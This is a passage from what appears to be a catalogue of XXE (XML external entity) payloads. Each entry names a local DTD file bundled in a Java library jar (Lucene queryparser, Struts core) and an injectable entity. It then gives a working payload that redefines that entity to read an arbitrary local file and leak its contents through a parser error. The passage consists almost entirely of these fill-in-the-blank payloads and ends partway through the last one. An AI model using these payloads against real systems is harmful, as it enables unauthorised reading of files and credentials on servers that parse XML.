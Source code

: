**Injectable entity:** `%queries`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/lucene/lucene-queryparser/7.6.0/lucene-queryparser-7.6.0.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd">

    <!ENTITY % queries 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/struts/struts-core/1.3.10/struts-core-1.3.10.jar!/org/apache/struts/resources/struts-config_1_0.dtd`

**Injectable entity:** `%BeanName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/struts/struts-core/1.3.10/struts-core-1.3.10.jar!/org/apache/struts/resources/struts-config_1_0.dtd">

    <!ENTITY % BeanName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/struts/struts-core/1.3.8/struts-core-1.3.8.jar!/org/apache/struts/resources/struts-config_1_0.dtd`

**Injectable entity:** `%BeanName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/struts/struts-core/1.3.8/struts-core-1.3.8.jar!/org/apache/struts/resources/struts-config_1_0.dtd">

    <!ENTITY % BeanName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

```